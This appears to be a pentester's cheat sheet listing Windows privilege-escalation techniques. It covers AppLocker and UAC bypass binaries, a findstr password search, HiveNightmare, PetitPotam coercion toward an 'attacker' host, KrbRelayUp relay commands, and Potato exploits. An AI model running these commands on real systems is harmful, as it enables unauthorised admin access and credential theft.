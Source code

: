 # Low access (Privilege escalation)

## Bypass Applocker >>> Low access (without applocker)
- Get-Applocker infos
  - `Get-ChildItem -Path HKLM:\SOFTWARE\Policies \Microsoft\Windows\SrpV2\Exe (dll/msi/...)`
- files in writables paths
  - C:\Windows\Temp
  - C:\Windows\Tasks
- `installutil.exe /logfile= /LogToConsole=false /U C:\runme.exe`
- `mshta.exe my.hta`
- `MsBuild.exe pshell.xml`

## UAC bypass >>> Admin
- `Fodhelper.exe`
- `wsreset.exe`
- `msdt.exe`

## Auto Enum >>> Admin
- `winPEASany_ofs.exe`
- `.\PrivescCheck.ps1;  Invoke-PrivescCheck -Extended"`

## Search files >>> User Account
- `findstr /si 'pass' *.txt *.xml *.docx *.ini`

## Exploit >>> Admin
- SMBGhost CVE-2020-0796 @CVE@
- CVE-2021-36934 (HiveNightmare/SeriousSAM) @CVE@
  - `vssadmin list shadows`

## Webdav >>> HTTP Coerce
- open file <file>.searchConnector-ms
  - `dnstool.py -u <domain>\<user> -p <pass> --record 'attacker' --action add --data <ip_attacker> <dc_ip>`
    - `petitpotam.py -u '<user>' -p <pass> -d '<domain>' "attacker@80/random.txt" <ip>`

## Kerberos Relay >>> Admin
- `KrbRelayUp.exe relay -Domain <domain> -CreateNewComputerAccount -ComputerName <computer$> -ComputerPassword <password>`
  - `KrbRelayUp.exe spawn -m rbcd -d <domain> -dc <dc> -cn <computer_name>-cp <omputer_pass>`

## From Service account (SEImpersonate) >>> Admin
- RoguePatato @CVE@
- GodPotato @CVE@
- PrintSpoofer @CVE@
- RemotePotato0